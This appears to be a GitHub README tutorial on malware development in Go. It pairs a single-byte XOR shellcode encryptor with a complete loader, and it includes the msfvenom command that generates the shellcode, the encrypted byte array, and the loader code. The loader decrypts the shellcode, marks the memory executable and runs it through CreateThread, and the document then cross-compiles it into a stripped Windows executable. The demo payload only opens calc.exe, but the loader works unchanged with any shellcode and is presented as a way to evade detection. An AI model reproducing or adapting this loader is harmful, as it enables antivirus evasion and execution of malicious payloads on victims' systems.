 # 🧩 XOR Shellcode Encryptor (Go)

---


## ✨ What It Does

- 📜 Takes raw shellcode (e.g., generated from msfvenom).

- 🔑 Applies a single-byte XOR key to each byte.

- 🔒 Produces an obfuscated byte array (harder for static detection).

- 🛠️ Outputs shellcode in a Go-friendly format → directly usable in loaders.

This is a classic malware technique: keep payloads encrypted at rest and decrypt them at runtime before execution.

## ⚡ How It Works

Input → Raw binary shellcode (e.g. from Metasploit).

Key → A static XOR key (0x85 in this case).

Processing → Loops through every byte, applying cipher[i] = clear[i] ^ key.

Output → Nicely formatted Go array ([]byte{...}) ready to drop into a loader.

---


## Generate Shellcode (example: spawn calc.exe 🧮)

```bash
/opt/metasploit-framework/bin/msfvenom -p windows/x64/exec CMD="calc.exe" -f raw > clean-shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
kant@APPLEs-MacBook-Pro ~/e/shellcode> cat clean-shellcode.bin 
A?8?u?LLE9?u?XD?@$I?fA?H?P?HD?@ I??VH??A?4?H?M1?H1??A??
                       HD?@I?A??H?AXAX^YZAXAYAZH?? AR??XAYZH??W???]H?H??A?1?o??ջ?VA???????H??(<|
???u?GrojYA????calc.exe⏎    

```
---

## Xor Encryption/main.go

```go
package main

import (
    "flag"
    "fmt"
    "os"
)

func main()  {

    key := byte(133)

    // Example: ./encryptor -file=shellcode.bin
    pShellcodePath := flag.String("file", "", "Path Of the Shellcode")
    flag.Parse()

    shellcodePath := *pShellcodePath
    
    clearShellcodeByte, err := os.ReadFile(shellcodePath)
    if err != nil {
        fmt.Println("Error Opening file")
        fmt.Println(err.Error())
    }

    var encryptedShellcode []byte

    for i := 0; i < len(clearShellcodeByte); i++ {
        encryptedShellcode = append(encryptedShellcode, clearShellcodeByte[i] ^ key )
    }

    fmt.Print("[]byte{")
    for i := 0; i < len(clearShellcodeByte); i++ {
        if i == len(clearShellcodeByte) - 1 {
            fmt.Printf("%d", encryptedShellcode[i]) // last element, no comma
        } else {
            fmt.Printf("%d, ", encryptedShellcode[i])
        }
    }
    fmt.Println("}")
}


```
---

## 🔨 Run the encryptor
```bash
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> go build -o enc Xor-Enc/main.go 
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  enc*                 go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -h
Usage of ./enc:
  -file string
    	Path Of the Shellcode
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -file=clean-shellcode.bin 
[]byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133 }
kant@APPLEs-MacBook-Pro ~/e/shellcode> 

```

## 🌐 Why XOR?

XOR encryption is one of the oldest tricks in the book for malware authors:

🔀 Obfuscation → Avoids plain-text shellcode detection.

🕵️ Evasion → Helps bypass naive string signatures.

⚡ Fast & Lightweight → Single CPU instruction per byte.

🧩 Easy Integration → Works across any language/runtime.

Of course, advanced security tools can still catch this — but it’s a first step in maldev learning.




---
---

## Decryptor

```go
package main

import (
	"fmt"
	"unsafe"

	"golang.org/x/sys/windows"
)

func main() {
	secretKey := byte(133)

	// Put encrypted byte from prepare here
	encryptedShellcode := []byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133}

	var clearShellcode []byte

	for i := 0; i < len(encryptedShellcode); i++ {
		clearShellcode = append(clearShellcode, encryptedShellcode[i]^secretKey)
	}

	// Allocating memory
	fmt.Println("Allocating Memory")
	pNewlyAllocatedMem, err := windows.VirtualAlloc(uintptr(0), uintptr(len(clearShellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Println("Failed to Allocate Memory")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Copying Shellcode
	fmt.Println("Copying Shellcode")
	destination := unsafe.Slice((*byte)(unsafe.Pointer(pNewlyAllocatedMem)), len(clearShellcode))
	copy(destination, clearShellcode)
	fmt.Println("Done ...")

	fmt.Println("Changing Protection")
	var oldprotect uint32
	windows.VirtualProtect(pNewlyAllocatedMem, uintptr(len(clearShellcode)), windows.PAGE_EXECUTE_READ, &oldprotect)
	if err != nil {
		fmt.Println("Failed to Change Protection")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Launching Thread
	fmt.Println("Launching thread")
	KERNEL32DLL := windows.NewLazyDLL("kernel32.dll")
	procCreateThread := KERNEL32DLL.NewProc("CreateThread")
	h, _, err := procCreateThread.Call(0, 0, pNewlyAllocatedMem, 0, 0, 0)
	if err != nil {
		fmt.Println("Failed to run thread")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	windows.WaitForSingleObject(windows.Handle(h), windows.INFINITE)
}

```

---

## Cross Compilation

```bash
kant@APPLEs-MacBook-Pro ~/e/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
kant@APPLEs-MacBook-Pro ~/e/loader> ls
exp/      go.mod    go.sum    main.exe*
```

---
